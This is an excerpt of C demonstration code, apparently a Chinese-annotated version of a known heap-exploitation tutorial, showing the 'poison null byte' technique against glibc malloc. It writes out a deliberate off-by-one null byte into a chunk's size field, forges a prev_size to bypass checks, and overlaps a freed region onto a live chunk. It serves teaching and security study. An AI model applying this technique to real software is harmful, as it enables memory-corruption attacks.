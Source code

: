  ```c
     int real_a_size = malloc_usable_size(a);
     fprintf(stderr, "因为我们想要溢出 chunk a，所以需要知道他的实际大小: %#x\n", real_a_size);
 
     b = (uint8_t*) malloc(0x200);
     fprintf(stderr, "b: %p\n", b);
     c = (uint8_t*) malloc(0x100);
     fprintf(stderr, "c: %p\n", c);
 
     barrier =  malloc(0x100);
     fprintf(stderr, "另外再申请了一个 chunk c：%p，防止 free 的时候与 top chunk 发生合并的情况\n", barrier);
 
     uint64_t* b_size_ptr = (uint64_t*)(b - 8);
     fprintf(stderr, "会检查 chunk size 与 next chunk 的 prev_size 是否相等，所以要在后面一个 0x200 来绕过检查\n");
     *(size_t*)(b+0x1f0) = 0x200;
 
     free(b);
     
     fprintf(stderr, "b 的 size: %#lx\n", *b_size_ptr);
     fprintf(stderr, "假设我们写 chunk a 的时候多写了一个 0x00 在 b 的 size 的 p 位上\n");
     a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
     fprintf(stderr, "b 现在的 size: %#lx\n", *b_size_ptr);
 
     uint64_t* c_prev_size_ptr = ((uint64_t*)c)-2;
     fprintf(stderr, "c 的 prev_size 是 %#lx\n",*c_prev_size_ptr);
 
     fprintf(stderr, "但他根据 chunk b 的 size 找的时候会找到 b+0x1f0 那里，我们将会成功绕过 chunk 的检测 chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))\n",*((size_t*)(b-0x8)), *(size_t*)(b-0x10 + *((size_t*)(b-0x8))));
     b1 = malloc(0x100);
 
     fprintf(stderr, "申请一个 0x100 大小的 b1: %p\n",b1);
     fprintf(stderr, "现在我们 malloc 了 b1 他将会放在 b 的位置，这时候 c 的 prev_size 依然是: %#lx\n",*c_prev_size_ptr);
     fprintf(stderr, "但是我们之前写 0x200 那个地方已经改成了: %lx\n",*(((uint64_t*)c)-4));
     fprintf(stderr, "接下来 malloc 'b2', 作为 'victim' chunk.\n");
 
     b2 = malloc(0x80);
     fprintf(stderr, "b2 申请在: %p\n",b2);
 
     memset(b2,'B',0x80);
     fprintf(stderr, "现在 b2 填充的内容是:\n%s\n",b2);
     fprintf(stderr, "现在对 b1 和 c 进行 free 因为 c 的 prev_size 是 0x210，所以会把他俩给合并，但是这时候里面还包含 b2 呐.\n");
 
     free(b1);
     free(c);
     
     fprintf(stderr, "这时候我们申请一个 0x300 大小的 chunk 就可以覆盖着 b2 了\n");
     d = malloc(0x300);
     fprintf(stderr, "d 申请到了: %p，我们填充一下 d 为 \"D\"\n",d);
     memset(d,'D',0x300);
     fprintf(stderr, "现在 b2 的内容就是:\n%s\n",b2);
 }
 ```
